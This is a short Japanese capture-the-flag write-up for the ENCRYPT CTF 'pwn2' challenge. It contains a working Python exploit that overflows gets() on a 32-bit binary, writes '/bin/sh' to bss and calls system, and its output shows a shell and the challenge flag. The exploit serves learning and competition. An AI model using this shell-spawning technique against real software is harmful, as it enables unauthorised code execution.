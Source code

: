 # [pwn 100pts] pwn2 - ENCRYPT CTF
32bitバイナリでセキュリティ機構は基本的に無効のようです。
```
$ checksec pwn2
[*] 'pwn2'
    Arch:	32 bits (little endian)
    NX:		NX disabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
IDAで解析しましょう。
またもやgetsによるスタックオーバーフローがあります。

解き方はいろいろあると思いますが、今回はgetsでbssセクションに`/bin/sh`を書き込んだあと、`system("/bin/sh")`を呼び出す方針にします。
もちろんシェルコードを実行するのも良いですし、libcのアドレスをリークするのも良いと思います。

```python
from ptrlib import *

elf = ELF("./pwn2")
sock = Process("./pwn2")

plt_gets = 0x080483d0
plt_system = 0x080483f0

payload = b'A' * 0x2C
payload += p32(plt_gets)
payload += p32(plt_system)
payload += p32(elf.symbol("__bss_start"))
payload += p32(elf.symbol("__bss_start"))

sock.recvuntil("$ ")
sock.sendline(payload)

sock.send("/bin/sh\x00")

sock.interactive()
```

```
$ python solve.py 
[+] Process: Successfully created new process (PID=8330)
bash: command not found: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÐð4 4 
Bye!
[ptrlib]$ ls
[ptrlib]$ ls
INFO
README.md
flag.txt
pwn2
pwn2.id0
pwn2.id1
pwn2.id2
pwn2.nam
pwn2.til
solve.py
[ptrlib]$ cat flag.txt
encryptCTF{N!c3_j0b_jump3R}
[ptrlib]$
```

# 感想
0CTFのpwnが難しすぎて体力が減っていたので、これくらい簡単なのが来ると心が安らぎます。